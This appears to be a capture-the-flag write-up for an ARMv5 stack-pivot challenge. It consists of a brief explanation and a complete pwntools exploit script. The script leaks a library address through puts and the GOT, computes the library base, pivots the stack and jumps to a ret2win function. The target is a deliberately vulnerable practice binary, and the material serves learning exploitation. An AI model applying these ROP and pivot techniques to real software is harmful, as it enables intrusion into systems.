

so we are granted a convenient way to build a rop chain 




there exist puts and a foothold_function in plt, and a ret2win function that print the flag in lib

so our goal is to use puts to leak the foothold_function address, then calculate the ret2win function and jump to it

```
#!/usr/bin/python3
from pwn import *

context.os="linux"
context.log_level="debug"

context.binary=exe=ELF("./pivot_armv5-hf")
lib=ELF("./libpivot_armv5-hf.so")

# p=process(["qemu-arm","-L", "/usr/arm-linux-gnueabihf","-g","1234","./pivot_armv5-hf"])
p=process(["qemu-arm","./pivot_armv5-hf"])

buffer=0x24*b"A"
foothold_plt=exe.plt["foothold_function"]
foothold_got=exe.got["foothold_function"]
puts_plt=exe.plt["puts"]
main=exe.sym["main"]
pop_r3pc=0x109b4
mov_spr4_pop_r4fppc=0x0001092c
pop_r4pc=0x10790
bl_mov_r31_strb_r3Ir4I_pop_r4pc=0x10784
pop_r4pc=0x10790
addr=0x21800
pop_r11pc=0x10840
mov_r0r3_sub_spr114_pop_r11pc=0x00010838

p.recvuntil("The Old Gods kindly bestow upon you a place to pivot: 0x")
data=p.recvline()
data=data[:8]
addr=int(data,16)

print(hex(addr))
print(hex(foothold_got))

payload=flat(
    0,
    0,
    pop_r4pc,
    addr,
    bl_mov_r31_strb_r3Ir4I_pop_r4pc,
    addr,
    foothold_plt,
    addr,
    bl_mov_r31_strb_r3Ir4I_pop_r4pc,
    addr,
    pop_r3pc,
    foothold_got,
    pop_r11pc,
    addr+0x40,
    mov_r0r3_sub_spr114_pop_r11pc,
    0,
    puts_plt,
    0,
    main
)

p.recvuntil("> ")
p.send(payload)

payload=flat(
    buffer,
    pop_r4pc,
    addr,
    mov_spr4_pop_r4fppc,
)

p.recvuntil("> ")
p.send(payload)

p.recvuntil("foothold_function(): Check out my .got.plt entry to gain a foothold into libpivot\n")
data=p.recvline()

data=data[:4]
print(data.hex())
print(hex(u32(data)))

lib_base=u32(data)-lib.sym["foothold_function"]
print(hex(lib_base))

win=lib_base+lib.sym["ret2win"]

payload=flat(
    0
)

p.recvuntil("> ")
p.send(payload)

payload=flat(
    buffer,
    win
)

p.recvuntil("> ")
p.send(payload)

p.interactive()
```